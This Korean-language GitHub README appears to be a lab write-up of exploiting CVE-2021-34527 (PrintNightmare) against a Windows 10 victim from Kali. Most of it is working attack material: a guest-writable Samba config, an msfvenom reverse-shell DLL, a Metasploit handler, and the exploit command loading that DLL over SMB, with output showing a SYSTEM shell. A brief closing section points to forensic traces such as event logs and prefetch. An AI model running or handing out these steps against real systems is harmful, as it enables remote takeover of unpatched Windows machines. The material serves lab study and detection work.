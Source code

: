# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS              | Build     | Core | RAM  | IP            | Exploit Code |
| :---       | :---            | :---      | :--- | :--- | :---          | :---         |
| Victim     | Windows 10 1903 | 18362.356 | 2    | 4GB  | 192.168.0.114 |              |
| Attacker   | Kali 2019       |           |      |      | 192.168.0.112 | [exploit.py](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2021-34527/file/exploit.py) |

# **Setting**

spooler 서비스 동작 확인

![](images/2022-05-18-21-39-59.png)


# **Exploit**

SMB 서버의 smb.conf(/etc/samba/smb.conf) 설정 수정

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
writable = yes
read only = no
browseable = yes
force user = nobody
```

reverse tcp 페이로드 생성

```sh
┌──(root💀kali)-[~]
└─# msfvenom -f dll -p windows/x64/shell_reverse_tcp LHOST=192.168.0.112 LPORT=3333 -o /tmp/evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
Saved as: /tmp/evil.dll
```

SMB 서버 실행

```sh
┌──(root💀kali)-[~/Desktop]
└─# service smbd start                                                   3 ⨯
                                                                             
┌──(root💀kali)-[~/Desktop]
└─# service smbd status
● smbd.service - Samba SMB Daemon
     Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor pres>
     Active: active (running) since Thu 2021-07-15 22:20:38 EDT; 1s ago
...
```

metasploit 세션 대기

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/shell_reverse_tcp
PAYLOAD => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.0.112
LHOST => 192.168.10.223
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:3333
```

Exploit Code 실행

    python3 exploit.py "아이디":"비밀번호"@"공격 대상 IP" "아무 문자열" "\\SMB 서버 IP\공유 폴더 명\실행시킬 악성코드"

```sh
┌──(root💀kali)-[~]
└─# python3 CVE-2021-34527.py user:user@192.168.0.114 a '\\192.168.0.112\smb\evil.dll'
[*] Connecting to ncacn_np:192.168.0.114[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_16f13144559407c0\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\192.168.0.112\smb\evil.dll
[*] Try 0...
[*] Stage0: 0
[*] Stage1: 0
[+] Exploit Completed
[*] Stage2: 0
[+] Exploit Completed
[*] Stage3: 0
[+] Exploit Completed
SMB SessionError: STATUS_PIPE_BROKEN(The pipe operation has failed because the other end of the pipe has been closed.)
SMB SessionError: STATUS_PIPE_CLOSING(The specified named pipe is in the closing state.)
...
```

metasploit 세션 확인

```sh
[*] Command shell session 1 opened (192.168.0.112:3333 -> 192.168.0.114:50004) at 2021-07-16 00:32:42 -0400
C:\Windows\system32>whoami
whoami
nt authority\system
```

# **etc**

이벤트뷰어(eventvwr)의 로그 확인

    Windows 로그 > 보안

![](images/2022-05-18-21-48-56.png)

![](images/2022-05-18-21-49-00.png)

![](images/2022-05-18-21-49-04.png)

    Windows 로그 > 응용 프로그램

![](images/2022-05-18-21-49-15.png)

![](images/2022-05-18-21-49-19.png)

    Windows 로그 > 시스템

![](images/2022-05-18-21-49-30.png)

    응용 프로그램 및 서비스 로그 > Microsoft > Windows > SMBClient > Operational

![](images/2022-05-18-21-49-55.png)

process tree 확인

![](images/2022-05-18-21-50-08.png)

prefetch 확인

![](images/2022-05-18-21-50-19.png)

[Reference](https://github.com/cube0x0/CVE-2021-1675)